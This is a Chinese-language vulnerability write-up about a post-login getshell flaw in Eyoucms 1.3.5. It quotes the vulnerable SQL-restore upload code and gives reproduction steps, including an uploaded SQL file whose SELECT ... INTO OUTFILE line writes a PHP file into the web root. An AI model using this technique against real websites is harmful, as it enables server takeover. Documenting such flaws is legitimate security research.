 Eyoucms 1.3.5 后台getshell
==========================

一、漏洞简介
------------

### 最新版本删除该功能

二、漏洞影响
------------

Eyoucms 1.3.5

三、复现过程
------------

### 漏洞分析

相关功能代码在`application/admin/controller/Tools.php`

     public function restoreUpload()
     {
         $file = request()->file('sqlfile');
         if(empty($file)){
             $this->error('请上传sql文件');
         }
         // 移动到框架应用根目录/data/sqldata/ 目录下
         $path = tpCache('global.web_sqldatapath');
         $path = !empty($path) ? $path : config('DATA_BACKUP_PATH');
         $path = trim($path, '/');
         $image_upload_limit_size = intval(tpCache('basic.file_size') * 1024 * 1024);
         $info = $file->validate(['size'=>$image_upload_limit_size,'ext'=>'sql,gz'])->move($path, $_FILES['sqlfile']['name']);
         if ($info) {
             //上传成功 获取上传文件信息
             $file_path_full = $info->getPathName();
             if (file_exists($file_path_full)) {
                 $sqls = Backup::parseSql($file_path_full);
                 if(Backup::install($sqls)){
                    //array_map("unlink", glob($path));
                     /*清除缓存*/
                     delFile(RUNTIME_PATH);
                     /*--end*/
                     $this->success("执行sql成功", url('Tools/restore'));
                 }else{
                     $this->error('执行sql失败');
                 }
             } else {
                 $this->error('sql文件上传失败');
             }
         } else {
             //上传错误提示错误信息
             $this->error($file->getError());
         }
     }

上传过程中只验证了文件的大小和后缀，之后解析sql语句并执行。解析sql函数不再贴出，但并没有检测文件内容正常的sql语句都能通过解析。install函数直接执行了sql语句。

### 漏洞复现

登陆后台在`高级选项->备份还原->数据还原`可选择上传sql文件并执行

![](./resource/Eyoucms1.3.5后台getshell/media/rId27.png)

上传sql文件内容为（需要知道网站绝对路径）

     select '<?php phpinfo(); ?>' into outfile 'D:\\tools\\phpstudy\\phpstudy_pro\\WWW\\testcms\\1.php';

上传成功后在网站根目录生成webshell。

![](./resource/Eyoucms1.3.5后台getshell/media/rId28.png)
